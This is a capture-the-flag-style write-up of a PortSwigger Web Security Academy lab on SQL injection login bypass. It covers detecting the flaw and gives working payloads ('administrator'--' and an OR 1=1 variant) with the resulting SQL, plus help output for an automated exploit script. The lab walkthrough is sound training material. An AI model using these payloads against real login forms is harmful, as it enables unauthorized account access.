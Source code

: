\+ Lab #2    : SQL injection allowing login bypass\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/sql-injection/lab-login-bypass \


## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) in the login functionality.<br/>
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## End Goal:
Bypassing the login functionality and loging in as the ```administrator``` user

## Detection: 
* Navigate to the ```/login``` directory and you will be presented with the vulnerable login functionality<br/>
* Since we know that this login form is vulnerable to SQLi, let's try triggering an error by submitting a single quote ```'``` in the ```username``` field and some random password in the password field.
* The App should return a ```500 Internal Server Error```, which means that an error has occured in the back-end database while processing the query.
* The ```username``` POST parameter is vulnerable to SQL Injection !

## Exploitation: 
### Manual: 
1. Intercept the request with Burp Suite proxy,
2. Send the request to repeater,
3. Inject the username field with the following payload: ```administrator'--```
4. The resulting query sent by the App to the back-end database should look to something like this:
```SQL
SELECT * FROM content WHERE username='administrator'--' AND password='p@$$w0rd'
SELECT * FROM content WHERE username='administrator'
```
> :memo: **Note:** You can also try the following payload ```randomusername' OR 1=1--``` which is also valid and bypasses the login functionality
```SQL
SELECT * FROM content WHERE username='randomusername' OR 1=1--' AND password='p@$$w0rd'
```
### Automated: 
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-2.py --help
usage: Lab-2.py [-h] -u URL [-n]

Usage Example: python3 Lab-2.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
